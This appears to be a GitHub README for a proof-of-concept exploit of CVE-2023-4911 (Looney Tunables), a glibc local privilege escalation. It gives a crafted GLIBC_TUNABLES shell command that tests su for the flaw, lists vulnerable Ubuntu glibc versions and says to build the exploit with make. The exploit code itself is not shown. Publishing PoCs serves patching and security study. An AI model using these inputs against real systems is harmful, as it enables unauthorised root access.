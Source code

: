 # CVE-2023-4911
This is a PoC (Proof Of Concept) for the Looney Tunables Linux Privilege Escalation vulnerability. This is based on [this PoC](https://github.com/leesh3288/CVE-2023-4911). Great thanks to `leesh3288`. [Here](https://seclists.org/oss-sec/2023/q4/18) you can find a very detailed writeup, and [here](https://youtu.be/1iV-CD9Apn8) you can see a very cool video by IppSec.

## Usage
Check if it's vulnerable
```bash
env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
```
![](vuln.png)

It is worth saying that vulnerable `glibc` versions are, including this one, from `2.35-0ubuntu3.3` and below.

![](version.png)

Run the exploit
```bash
$ make
```
![](poc.png)
